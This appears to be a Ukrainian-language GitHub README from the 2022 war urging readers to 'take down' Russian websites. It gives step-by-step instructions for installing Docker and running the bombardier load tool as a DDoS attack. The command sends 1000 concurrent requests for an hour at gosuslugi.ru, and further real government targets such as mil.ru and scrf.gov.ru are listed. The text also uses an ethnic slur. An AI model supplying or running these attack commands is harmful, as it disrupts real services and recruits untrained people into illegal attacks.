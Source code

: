 # Валимо русню РАЗОМ!!! 
## Якщо не можете фізично, то можете інформаційно! Внизу кроки для організації DDoS-атаки з вашого комп'ютера.  

1. Завантажуємо Docker та встановлюємо на свій комп'ютер:  
`Windows`: https://docs.docker.com/desktop/windows/install  
`MacOS`: https://docs.docker.com/desktop/mac/install
Важливо відкрити після цього програму `Docker`. Якщо після відкриття з'являється помилка з текстом `WSL 2 installation is incomplete` завантажуємо та встановлюємо драйвер тут: https://wslstorestorage.blob.core.windows.net/wslblob/wsl_update_x64.msi  
Після цього повинно працювати. Якщо просить перезавантажити комп'ютер - робимо це.

2. Відкриваємо консоль:  
`Windows`: комбінація клавіш `win + r`. В полі `Відкрити:` пишемо `cmd`. Жмакаємо `Enter`.  
`MacOS`: комбінація клавіш `Command(⌘) + пробіл` (інколи `Ctrl + пробіл`). В поле пошуку вводимо `terminal`. Жмакаємо `Enter`.  
Повинно появитися чорне вікно з мигаючим курсором.

3. В консолі вписуємо наступну команду:
```
docker run --rm -it alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
```
Інформація по параметрах команди:  
`-c 1000` - скільки буде відбуватися одночасно запитів на вказане посилання. Не потрібно вписувати дуже великі числа. Але можете поексперементувати і вказати більше або менше ніж 1000.  
`-d 3600s` - час в секундах, протягом якого будуть відбуватися запити. В команді вказано час на 1 годину, але можна поставити більше. Час вказувати в секундах, після кількості секунд дописати букву `s`.  
Жмакаємо `Enter`. 

4. Насолоджуємся і уявляємо як русня бігає в офісі роскомнадзору і дує на свої сервера, щоб вони не загорілись.

P. S.: дані кроки можна повторювати багато разів для різних сайтів. Просто змінюємо посилання на одне з наступних:  
https://epp.genproc.gov.ru  
https://ach.gov.ru  
https://scrf.gov.ru  
https://mil.ru  

Наприклад:
```
docker run --rm -it alpine/bombardier -c 700 -d 7200s -l https://mil.ru
```

